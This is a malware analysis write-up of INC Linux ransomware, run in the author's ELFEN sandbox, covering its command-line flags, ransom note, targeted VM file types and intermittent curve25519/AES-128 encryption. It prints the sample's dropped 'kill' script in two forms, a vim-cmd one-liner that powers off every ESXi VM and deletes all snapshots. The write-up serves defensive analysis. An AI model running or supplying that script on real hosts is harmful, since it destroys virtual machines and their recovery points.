

# INC Linux Ransomware - Sandboxing with ELFEN and Analysis

## Metadata
* SHA256: `a0ceb258924ef004fa4efeef4bc0a86012afdb858e855ed14f1bbd31ca2e42f5`
    * VT [link](https://www.virustotal.com/gui/file/a0ceb258924ef004fa4efeef4bc0a86012afdb858e855ed14f1bbd31ca2e42f5/detection)

## Table of Contents

* [Family Introduction](#family-introduction)
* [Sandboxing with ELFEN](#sandboxing-elfen)
    * [Detonation](#detonation)
    * [Console Output](#console-output)
    * [Terminate VMs on ESXi Host](#terminate-vms)
    * [Open-Source Library Usage](#open-source-usage)
    * [Ransom Note](#ransom-note)
    * [Encryption](#encryption-in-elfen)
* [Code Analysis](#code-analysis)
    * [Command-line Parameters](#cmdline-params)
    * [Encoded Ransom Note](#encoded-ransom-note)
    * [Encryption](#encryption)
* [Summary](#summary)
* [References](#references)

## <a name="family-introduction"></a>Family Introduction

`INC` Linux ransomware emerged in July 2023 and is operated by a group known by the same name, `INC Ransom`. They are
known to target multiple industries.

## <a name="sandboxing-elfen"></a>Sandboxing with ELFEN

Generally, a malware analyst performs sandboxing early in their workflow. The purpose of sandboxing is to quickly get a
general idea of the malware sample's capabilities - does it communicate over the network or encrypt files or establish
persistence, etc. This information is useful in determining the next steps in the analysis workflow. I built the
[ELFEN](https://github.com/nikhilh-20/ELFEN) sandbox to analyze Linux malware (file type: `ELF`) and provide this information.
It is open-source and easy to set up.

### <a name="detonation"></a>Detonation

This `INC` ransomware variant accepts multiple command-line arguments as indicated by printable strings in the binary:

```bash
$ strings a0ceb258924ef004fa4efeef4bc0a86012afdb858e855ed14f1bbd31ca2e42f5
...
...
--debug
--file
--dir
--daemon
--esxi
--motd
--skip
[*] Count of arguments: %d
...
...
```

Ransomware samples typically accept command-line arguments to specify the files and/or directories to encrypt. To conduct
effective sandboxing, it is necessary to identify the appropriate command-line arguments to provide at the time of
detonation. Identification can be done by either making an educated guess or by analyzing the code in a disassembler/
decompiler of your choice.

I made an educated guess and submitted the sample to the [ELFEN](https://github.com/nikhilh-20/ELFEN) sandbox
with the following command-line parameters:
```
--dir /vmfs/volumes --esxi --debug --motd
```


The analysis result summary is shown in the snap below:


### <a name="console-output"></a>Console Output

It is evident from the console output that the detonation was successful. The sample was able to encrypt files in the
`/vmfs/volumes` directory and change the MOTD.

```
[*] Count of arguments: 5
 [1] --dir
 [2] /vmfs/volumes
 [3] --esxi
 [4] --debug
 [5] --motd
 
[+] Start killing ESXi servers! No skipping VMs (be careful with DC)
[+] PID of child: 163
[+] Waiting for finish child process!
[+] /vmfs/volumes/8c24abb1-347d6a00-ee6f-2ea3f7f2bb5f/psiEgFyfQdlqQ/psiEgFyfQdlqQ.vmx added to thread pool!
[+] /vmfs/volumes/8c24abb1-347d6a00-ee6f-2ea3f7f2bb5f/psiEgFyfQdlqQ/psiEgFyfQdlqQ.vmdk added to thread pool!
[+] /vmfs/volumes/8c24abb1-347d6a00-ee6f-2ea3f7f2bb5f/psiEgFyfQdlqQ/psiEgFyfQdlqQ.vmxf added to thread pool!
[+] Changing message of the day!

```

### <a name="terminate-vms"></a>Terminate VMs on ESXi Host

The sample writes bash code into a shell script called `kill` in the current working directory and executes it.
The snap below shows the trace recorded by [ELFEN](https://github.com/nikhilh-20/ELFEN).


The `kill` script is considered as a dropped file by [ELFEN](https://github.com/nikhilh-20/ELFEN) and is available to be downloaded. Its contents are shown below:
```bash
$ cat kill 
vim-cmd hostsvc/autostartmanager/enable_autostart 0; for i in $(vim-cmd vmsvc/getallvms | awk '{print $1}' | grep -Eo '[0-9]{1,5}'); do vim-cmd vmsvc/power.off $i; vim-cmd vmsvc/snapshot.removeall $i; done;
```

The above code leverages ESXi's `vim-cmd` utility to perform the following operations:
1. It disables autostart for all VMs on the ESXi host.
2. It lists all VMs on the ESXi host, powers them off to free file locks, and removes all their snapshots to inhibit
recovery.

[ELFEN](https://github.com/nikhilh-20/ELFEN) traces the execution of various `vim-cmd` invocations:





Some invocations are classified as suspicious (score >= `30` and score < `69`).


### <a name="open-source-usage"></a>Open-Source Library Usage

The sample leverages code from the [Pithikos/C-Thread-Pool](https://github.com/Pithikos/C-Thread-Pool) GitHub repository
to implement a thread pool. [ELFEN](https://github.com/nikhilh-20/ELFEN) detects this usage through a Yara rule. 


[ELFEN](https://github.com/nikhilh-20/ELFEN) records change in the name of processes/threads and these come from the thread pool
[implementation](https://github.com/Pithikos/C-Thread-Pool/blob/master/thpool.c#L341-L345). While the open-source code
uses thread names in the format `thpool-<number>`, the sample uses `thread-pool-<number>`.


This change in name is detected by [ELFEN](https://github.com/nikhilh-20/ELFEN) as suspicious.


### <a name="ransom-note"></a>Ransom Note

The following snap shows the `write` trace of the ransom note. The sample writes it in both a `txt` and `html` file.
They can both be downloaded from [ELFEN](https://github.com/nikhilh-20/ELFEN).


")
")

The ransom note also modifies the "Message of the Day" (MOTD) on the ESXi host. It does so by writing to the file,
`/etc/motd`.


### <a name="encryption-in-elfen"></a>Encryption

[ELFEN](https://github.com/nikhilh-20/ELFEN) traces a few string-related libc functions and one of them is `strstr`.
Ransomware frequently target files with specific extensions while ignoring others. Looking at the trace below, one can
make an educated guess that the sample is likely targeting files with extensions, `.vmdk`, `.vmem`, `.vmx`, `.vswp`, and 
`.vmsn` while ignoring those with `INC` substring in them, likely ignoring already encrypted files.


The sample adds the string, `.INC` as a file extension to encrypted files.


[ELFEN](https://github.com/nikhilh-20/ELFEN) detects this as malicious behavior.


## <a name="code-analysis"></a>Code Analysis

### <a name="cmdline-params"></a>Command-line Parameters

The `--esxi` command-line parameter causes the sample to terminate VMs and remove their snapshots on the ESXi host
through the `vim-cmd` utility as we saw in the previous sections. The `--skip` parameter specifies VM IDs which should
be excluded from this operation. In that case, the `kill` script is as shown below:

```bash
$ cat kill 
vim-cmd hostsvc/autostartmanager/enable_autostart 0; for i in $(vim-cmd vmsvc/getallvms | awk '{print $1}' | grep -Eo '[0-9]{1,5}'); do if [[ $i -ne 1 ]]; then vim-cmd vmsvc/power.off $i; vim-cmd vmsvc/snapshot.removeall $i; else vim-cmd vmsvc/snapshot.removeall $i; fi; done;
```


The `--daemon` parameter causes the sample to `fork()` itself and then set the child as the session leader using
`setsid()`. This allows the child process to live if the parent process is killed.


### <a name="encoded-ransom-note"></a>Encoded Ransom Note

The `txt` and `html` contents of the ransom note are hardcoded in base64 form in the sample. The function that base64-decodes
the contents can be easily identified by ChatGPT.


### <a name="encryption"></a>Encryption

The sample leverages code from the GitHub repo: [agl/curve25519-donna](https://github.com/agl/curve25519-donna) to
generate a `curve25519-donna` shared key which is then SHA512-hashed. The first 16 bytes of the SHA512 hash is used as
a key for AES-128 encryption. The threat actor's `curve25519-donna` public key is hardcoded in the sample in base64
form.


The sample employs intermittent encryption. It encrypts 1MB at a time every 6MB of the file. After encrypting the file
contents, it will append the previously generated `curve25519-donna` public key (`mypublic` in snap above and below) and
`INC` string to the end of the file.


The threat actor can use their own `curve25519-donna` private key and the public key at the end of the encrypted
file to generate the shared key. It can then be SHA512-hashed where the first 16 bytes is the key to AES-128-decrypt the
file contents.

## <a name="summary"></a>Summary

The `INC` ransomware variant used in this analysis has typical ransomware capabilities - terminate ESXi VMs, intermittent
encryption leveraging asymmetric/symmetric cryptography, etc. The main goal of this analysis was to demonstrate the usage
of the [ELFEN](https://github.com/nikhilh-20/ELFEN) sandbox to quickly get insights into a given malware sample.

[ELFEN](https://github.com/nikhilh-20/ELFEN) supports features such as:
* Analysis and detection of Linux malware targeting x86-64, ARMv5, MIPS and PowerPC architectures.
* Tracing files, processes, network-related syscalls and some `libc` string-related functions.
* PCAP capture and protocol analysis.
* Memory dumps and capturing dropped files
* and more!

If you've not already, give [ELFEN](https://github.com/nikhilh-20/ELFEN) a try!

## <a name="references"></a>References

1. [ELFEN](https://github.com/nikhilh-20/ELFEN)
2. [Malpedia](https://malpedia.caad.fkie.fraunhofer.de/details/elf.inc)
3. [Why we use setsid() while daemonizing a process?](https://unix.stackexchange.com/questions/240646/why-we-use-setsid-while-daemonizing-a-process)
4. [Inc. Ransom](https://www.sentinelone.com/anthology/inc-ransom/)
5. [@MalwareHunterTeam](https://twitter.com/malwrhunterteam/status/1689029459255373826)
6. [ChatGPT](https://chat.openai.com/)
7. [GitHub agl/curve25519-donna](https://github.com/agl/curve25519-donna)
8. [AES key schedule](https://en.wikipedia.org/wiki/AES_key_schedule)
9. [AES Key Expansion](https://www.brainkart.com/article/AES-Key-Expansion_8410/)